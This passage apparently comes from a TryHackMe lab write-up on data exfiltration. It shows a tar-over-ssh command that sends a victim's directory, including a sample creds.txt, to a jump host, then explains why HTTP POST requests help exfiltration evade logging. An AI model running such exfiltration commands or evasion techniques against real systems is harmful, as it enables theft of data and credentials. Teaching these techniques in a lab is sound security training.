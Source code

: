 Let's use the same technique we discussed in the "exfiltration using a TCP socket" task, where we will be using the tar command to archive the data and then transfer it.

- **Exfiltration data from the victim1 machine**

```shell
thm@victim1:$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
	    
```

Let's break down the previous command and explain it:

1. We used the tar command the same as the previous task to create an archive file of the task5 directory.
2. Then we passed the archived file over the ssh. SSH clients provide a way to  execute a single command without having a full session. 
3. We passed the command that must be executed in double quotations, "cd /tmp/; tar xpf. In this case, we change the directory and unarchive the passed file.

If we check the attacker machine, we can see that we have successfully transmitted the file.

- **Checking the received data**

```shell
thm@jump-box$ cd /tmp/task5/
thm@jump-box:/tmp/task5$ cat creds.txt
admin:password
Admin:123456
root:toor	    
```

# Exfiltrate using HTTP(S)                            

Before going further,  ensure that you have the fundamental knowledge of network protocols  before diving into this task and the upcoming tasks.

This task  explains how to use the HTTP/HTTPS protocol to exfiltrate data from a  victim to an attacker's machine. As a requirement for this technique, an attacker needs control over a webserver with a server-side programming  language installed and enabled. We will show a PHP-based scenario in  this task, but it can be implemented in any other programming language,  such as python, Golang, NodeJS, etc.

### HTTP POST Request

Exfiltration data through the HTTP protocol is one of the best options because it is challenging to  detect. It is tough to distinguish between legitimate and malicious HTTP traffic. We will use the POST HTTP method in the data exfiltration, and the reason is with the GET request, all parameters are registered into  the log file. While using POST request, it doesn't. The following are  some of the POST method benefits:

- POST requests are never cached
- POST requests do not remain in the browser history
- POST requests cannot be bookmarked
- POST requests have no restrictions on **data length**

Let's login to theweb.thm.com machine using thm:tryhackme credentials and inspect the Apache log file with two HTTP requests, one for the GET and the other for the POST, and check what they look like!
